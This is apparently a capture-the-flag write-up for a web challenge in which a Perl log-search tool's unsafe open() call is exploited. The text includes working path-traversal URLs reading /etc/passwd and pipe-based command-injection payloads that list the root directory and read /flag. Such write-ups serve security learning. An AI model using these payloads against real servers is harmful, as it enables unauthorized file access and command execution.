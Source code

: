 # CHALLENGE 02

After recent attacks, we’ve developed a search tool. Search the logs and discover what the attackers were after.

Hint: Always search deeper.

https://aurora-web.h4ck.ctfcompetition.com/

File names in logs/
```
hexdump.txt
registry.txt
exploit_unobfuscated.js
filenames.txt
hostnames.txt
strings.txt
exploit.js
```

## Step 1
First idea was to bypass 4 letter check. However, the 4 letter check seems to be done both in backend and frontend.

```
<!-- /src.txt -->
```


## Step 2

When you open this log website, the default screen shows hexdump with a search term `aurora`. The output looks as follows:
```
0001bd30  61 5f 53 72 63 5c 41 75  72 6f 72 61 56 4e 43 5c  |a_Src\AuroraVNC\|
```
AuroraVNC might be a malware, and maybe a way to go is to retrieved the full hexdump of the file, and understand how this malware works.

We saw the hexdump file. We realised we can pass `0000` and use requests:
```
https://aurora-web.h4ck.ctfcompetition.com/?file=hexdump.txt&term=0000 
````

We can also use  ` |_`, that will return:
```
00002e70  5f 55 42 82 d5 53 50 93  ec b2 e0 6b 08 a2 94 dd  |_UB..SP....k....|
00003570  5f 09 ac 68 46 a5 e3 1c  95 61 27 29 8d a9 05 e5  |_..hF....a')....|
```

We wrote a small program [hexdump_retriever](./challenge02_data/hexdump_retriever.py) and restored the hexdump of the file. However, some pieces were missing from the hexdump, thus there was no point of further analyzing this.

## Step 3

We managed to see a backend Perl code. 
```
    open(my $article_fh, "ls >$needle |")      # ditto
        or die "Can't start caesar: $!";

    ...
    sub find_lines {
      my ($filename, $needle) = @_;
      my @results = ();
      if (length($needle) >= 4) {
        # I am sure this is totally secure!
        open(my $fh, "logs/".$filename);
        while (my $line = <$fh>) {
          if (index(lc($line), lc($needle)) >= 0) {
            push(@results, $line);
          }
        }
      }
      return @results;
    }
```
In this code, the program uses `open` function to open the file. This function is vulnerable, when the user-controlled filename is passed. [Read more](https://www.cgisecurity.com/lib/sips.html). Since we control the input, we can try to retrieve other files in server:

https://aurora-web.h4ck.ctfcompetition.com/?file=../../../../etc/passwd&term=root
The output:
```
root:x:0:0:root:/root:/bin/bash
```
https://aurora-web.h4ck.ctfcompetition.com/?file=../../../../../usr/bin/ls&term=libu

https://aurora-web.h4ck.ctfcompetition.com/?file=../templates/default.html&term=%20%20%20%20

We would like to list the files and directories using `ls | tr -d '\n' ` (print them all in one line). We managed to see the directories and files:
https://aurora-web.h4ck.ctfcompetition.com/?file=%7Cls%20/%7C%20tr%20-d%20%27\n%27|&term=boot
The output:
```
binbootdevetcflaghomeliblib32lib64libx32mediamntoptprocrootrunsbinsrvsystmpusrvarweb-apps
```
Here we can see a file called `flag`. Let's see the content of it.
Finally, the successful paylod was:
https://aurora-web.h4ck.ctfcompetition.com/?file=%7Ccat%20/flag%7C%20tr%20-d%20%27\n%27|&term=http
